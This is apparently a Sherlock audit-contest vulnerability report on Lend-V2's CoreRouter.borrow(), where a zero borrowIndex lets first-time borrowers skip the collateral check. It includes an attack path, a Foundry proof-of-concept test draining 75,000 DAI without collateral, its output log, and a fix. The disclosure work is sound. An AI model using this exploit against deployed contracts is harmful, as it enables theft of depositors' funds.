 Short Golden Seagull

High

# First-borrow collateral check bypass in CoreRouter.borrow() allows attacker to steal funds

### Summary

The zero-index fallback in [CoreRouter.borrow()](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L157-L159) will cause an unsecured draw for liquidity providers as an attacker will bypass the collateral check by performing a first borrow when their stored `borrowIndex` is zero - treating the `require(collateralUsd >= borrowAmount)` check as `0 ≥ 0` - and withdraw funds without locking collateral. 

Once their `borrowIndex` becomes non-zero, further borrows revert correctly, but by then the pool’s liquidity is already gone.

### Root Cause

In [CoreRouter.sol:157-161](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L157-L161), when `user.borrowIndex == 0` the code skips calculating the USD value of the new borrow and simply sets `borrowAmount = 0` for the collateral check, instead of comparing the actual borrowed USD amount.


```solidity
uint256 borrowAmount = currentBorrow.borrowIndex != 0
            ? ((borrowed * LTokenInterface(_lToken).borrowIndex()) / currentBorrow.borrowIndex) 
            : 0; //@audit this allows first-time borrowers to pass the collateral>=borrowAmount check even if they don't have collateral

        require(collateral >= borrowAmount, "Insufficient collateral"); 
```

### Internal Pre-conditions

- A user has deposited collateral into the CoreRouter pool, so that its `collateralUsd` balance is > 0.
- Attacker’s address has never borrowed before (`borrowIndex == 0`) - first-time borrower.

### External Pre-conditions

None.

### Attack Path

1. User A supplies collateral (e.g. 100 000 DAI) to the CoreRouter pool.
2. Attacker sees the funded pool and from a fresh address calls `borrow(75_000 DAI)`.
3. Inside `borrow()`, since `borrowIndex == 0`, the code sets `borrowAmount = 0`.
4. The check `require(collateralUsd >= borrowAmount)` becomes `require(0 >= 0)`, which passes.
5. The attacker receives 75 000 DAI without providing any collateral.

### Impact

An attacker can open a fresh address and call `borrow()` once to pull out available liquidity of any supported token - without ever locking up any collateral - draining the pool and stealing user funds. The attack could be performed for any liquid token.

This single-transaction exploit can empty a market before any on-chain safety checks fire, causing catastrophic losses and undermining trust in the protocol.

### PoC

1. Add `import "forge-std/console.sol";` in import section of the `TestBorrowing.t.sol` file

2. Add the following code into the `TestBorrowing.t.sol` file:

```solidity
function test_poc_first_time_borrow_with_insufficient_collateral() public {
        address alice = makeAddr("alice");
        address bob = makeAddr("bob");
        address token = supportedTokens[0]; // DAI mock
        uint256 collateralAmount = 100_000e18; // Alice supplies 100_000 DAI
        uint256 borrowAmount = 75_000e18; // The DAI amount that Bob will try to borrow
        address lToken = lendStorage.underlyingTolToken(token);

        // 0) Mint collateralAmount DAI to Alice
        deal(token, alice, collateralAmount);

        // 1) Alice approves and supplies DAI to CoreRouter
        vm.startPrank(alice);
        IERC20(token).approve(address(coreRouter), collateralAmount);
        coreRouter.supply(collateralAmount, token);
        vm.stopPrank();

        // sanity‐check: CoreRouter now holds lTokens on Alice's behalf
        uint256 totalSupplied = lendStorage.getTotalSupplied(alice, lToken);
        assertGt(totalSupplied, 0, "No collateral recorded");

        console.log("------------- STEP 1: ALLICE SUPPLIES DAI ------------");
        console.log("------------------------------------------------------\n");

        console.log("Alice supplies 100 000 DAI.");
        console.log("Alice's DAI totalSupplied: ", totalSupplied);

        console.log("\n");
        console.log("Alice's DAI balance: ", IERC20(token).balanceOf(alice)); // Should be 0 as she supplied all DAI to the protocol
        console.log("\n");

        // 2) Now Bob attempts to borrow 75_000 DAI
        console.log("-------------- STEP 2: BOB BORROWS DAI ---------------");
        console.log("------------------------------------------------------\n");
        console.log("Bob's DAI balance: ", IERC20(token).balanceOf(bob)); // Should be 0 as Bob hasn't interacted yet
        console.log("Bob attempts to borrow 75 000 DAI.\n");
        vm.startPrank(bob);
        coreRouter.borrow(borrowAmount, token); // Bob borrows 75_000 DAI without any collateral

        // Balances update after Bob's borrow attempt
        uint256 bobBalance = IERC20(token).balanceOf(bob); // Bob should receive 75_000 DAI

        assertEq(bobBalance, borrowAmount, "Bob borrowed 75 000 DAI");
        console.log("Bob's DAI balance: ", bobBalance);
        console.log("\n");
        console.log(
            "RESULT: Bob borrowed 75 000 DAI without supplying any collateral."
        );
        console.log("\n");

        vm.stopPrank();
    }
```

3. Run the test with the following command:
```shell
forge test --mt test_poc_first_time_borrow_with_insufficient_collateral -vv
```

4. Result log:

```shell
Ran 1 test for test/TestBorrowing.t.sol:TestBorrowing
[PASS] test_poc_first_time_borrow_with_insufficient_collateral() (gas: 880788)
Logs:
  ------------- STEP 1: ALLICE SUPPLIES DAI ------------
  ------------------------------------------------------

  Alice supplies 100 000 DAI.
  Alice's DAI totalSupplied:  100000000000000000000000
  

  Alice's DAI balance:  0
  

  -------------- STEP 2: BOB BORROWS DAI ---------------
  ------------------------------------------------------

  Bob's DAI balance:  0
  Bob attempts to borrow 75 000 DAI.

  Bob's DAI balance:  75000000000000000000000
  

  RESULT: Bob borrowed 75 000 DAI without supplying any collateral.
  


Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 8.37ms (1.99ms CPU time)
```

### Mitigation

One viable solution would be to use the `borrowed` from `getHypotheticalAccountLiquidityCollateral` instead of 0, if there has been no borrows for a user yet. 

This way, on any attempts for borrows before supplying, the tx will revert with `Insufficient collateral`.

```diff
uint256 borrowAmount = currentBorrow.borrowIndex != 0
            ? ((borrowed * LTokenInterface(_lToken).borrowIndex()) / currentBorrow.borrowIndex) 
-            : 0; //@audit this allows first-time borrowers to pass the collateral>=borrowAmount check even if they don't have collateral
+            : borrowed;
        require(collateral >= borrowAmount, "Insufficient collateral"); 
```